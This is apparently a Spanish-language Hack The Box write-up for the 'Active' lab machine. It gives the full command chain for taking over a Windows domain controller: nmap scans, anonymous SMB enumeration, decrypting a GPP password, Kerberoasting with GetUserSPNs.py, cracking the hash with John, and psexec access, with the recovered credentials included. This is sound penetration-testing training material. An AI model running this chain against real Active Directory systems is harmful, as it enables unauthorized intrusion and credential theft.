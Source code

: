```yaml
---
layout: post
title: "Write Up Active"
subtitle: "Starting-Point"
category: Blog
tags: [Easy,Genin,Windows,HTB,Kerberoasting,gpp-decrypt,GetUserSPNs.py,SMB,Active-Directory,Kerberos,Network,Vulnerability-Assessment,Active-Directory,Outdated-Software,Security-Tools,Authentication,Impacket,Reconnaissance,Password-Cracking,Default-Credentials,Weak-Permissions,Anonymous_Guest-Access,OSCP,OSEP]
image:
  path: /assets/img/active/active.png
---
```


***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento


### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
sudo nmap --open -p- -Pn -n -vvv --min-rate 5000 -sS 10.10.10.100 -oG allports
```

### Servicios y versiones


```bash
nmap -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152,49153,49154,49155,49157,49158,49165,49166,49168 10.10.10.100 -oN target -Pn
```


***

## Analisis de vulnerabilidades

Estando abierto los puertos 139 y 445 imediatamente lo que debemos hacer es tratar de explotar el smb,esto lo hacemos con crackmapexec, smbclient,smbmap entre otros.

![list](/assets/img/active/Kali-2022-09-16-23-10-48.png){:.lead width="800" height="100" loading="lazy"}

```bash
smbclient -L 10.10.10.100 -N
```

{:.note}
Listamos los shares.

Con crackmapexec vemos si el smb esta firmado ademas del dominio entre ota informacion.

```bash
crackmapexec smb 10.10.10.100
```

{:.note}
El doninio es `active.htb`,lo agrgamos al `/etc/hosts`.


Los siguiente es movernos por el recurso smb o crearnos una montura pero en este caso como vemos que hay muchos recursos pero sin credenciales solo tenemos acceso al share replication el cual podemos listar o movernos dentro de el con el parametro -R recursivamente para ver todo el contenido del mismo o con -r para movernos como directorio sea como sea en este caso lo que deberemos bucar es un archivo llamado groups.xml que contenie una credecial que deberemos crackear.

![list](/assets/img/active/Parrot-SO3-2022-08-18-22-31-30.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Como se puede observar tiene el dominio y el useraurio `active.htb\SVC_TGS` mas un hash .



Con la herramienta `gpp-decrypt` pdemos obtener la contraseña de la siguiente forma.

```bash
gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
```

{:.note}
La contraseña es `GPPstillStandingStrong2k18`.

***
## Explotacion

Con cracmapexec verificamos si las credeciales son validas ademas podemos listar de una ves a que shres tenemos accesos,tenemos acceso a NETLOGON, Replication, SYSVOL y Users .

El unico que tiene algo interesante es el de Users el cual moviendo atraves del recurso podremos encontrar la flag user.txt o tambien podriamos decargarla a nuestra maquina con el comando.

```bash
smbmap -H 10.10.10.100 -u "SVC_TGS" -p "GPPstillStandingStrong2k18" --download Users/SVC_TGS/Desktop/user.txt
```

{:.note}
Un cat a user.txt y se puede ver la contraseña.

![list](/assets/img/active/Parrot-SO3-2022-08-18-22-50-08.png){:.lead width="800" height="100" loading="lazy"}

***
## Escalacion de privilegios 

Exite varias herramentas que enumeran usauarios y grupos de smb y rcp, podemos usar `lookupsid.py` y `rcpclient` pero ene ste caso utilizaremos `rcpclient`.

![list](/assets/img/active/Parrot-SO3-2022-08-18-22-50-08.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Encontramos otros tres usuarior pero nada a destacar.



Por lo anterior tenemos el dominio + un usuario + una contraseña  podemos probar un ataque [Kerberosting]

[Kerberosting]: https://www.netwrix.com/cracking_kerberos_tgs_tickets_using_kerberoasting.html

```bash
GetUserSPNs.py 'active.htb/SVC_TGS:GPPstillStandingStrong2k18' -request
```
![list](/assets/img/active/Parrot-SO3-2022-08-18-23-02-30.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Debermos crackear el hash con `John The Ripper`.


```bash
john -w=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash
```


{:.note}
La contraseña es`Ticketmaster1968`.

Con cracmapexec verificamos si las credeciales son validas.

```bash
crackmapexec smb 10.10.10.100 -u "Administrator" -p "Ticketmaster1968"
```

![list](/assets/img/active/Kali-2022-09-16-23-36-01.png){:.lead width="800" height="100" loading="lazy"}

Con la herramienta `psexec.py` nos conectamos a la maquina victima con el siguiente comando.


```bash
psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100 cmd.exe
```

Para este punto solo debemos buscar las flags aunque la de user.txt ya la pudimos ver antes.

![list](/assets/img/active/Kali-2022-09-16-23-41-01.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
La flag esta en el ecritorio del usuario no privilegiado.

![list](/assets/img/active/Kali-2022-09-16-23-41-58.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
La flag esta en el ecritorio del usuario priviligiado.

***
```bash
🎉 Felicitaciones ya has comprometido Active de Hack The Box. 🎉
```
{:.centered}

***
Back to [Certification OSCP](2023-07-10-Road-to-OSCP.md){:.heading.flip-title}
{:.read-more}

***
Back to [Certification OSEP](){:.heading.flip-title}
{:.read-more}

